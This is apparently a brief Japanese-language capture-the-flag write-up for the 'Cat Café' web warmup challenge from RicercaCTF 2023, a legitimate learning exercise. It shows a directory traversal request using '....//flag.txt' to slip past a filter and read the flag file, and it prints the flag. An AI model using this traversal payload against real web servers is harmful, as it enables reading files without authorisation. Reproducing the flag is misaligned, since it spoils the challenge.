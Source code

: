 tag: web, warmup

Cat Café
95 pts

authored by ptr-yudai

Which cat do you like the most?

https://cat-cafe.2023.ricercactf.com:8000

=====

 %2e%2e%2f / flag.txt のようなリクエストを送ればいいんだろうけど。どうすればいいのかな、などと考えていた、深く（というか）そのまま素直に理解をして、以下のようなアクセスをすることでファイルを読めた
 
 http://cat-cafe.2023.ricercactf.com:8000//img?f=....//flag.txt
 RicSec{directory_traversal_is_one_of_the_most_common_vulnearbilities}

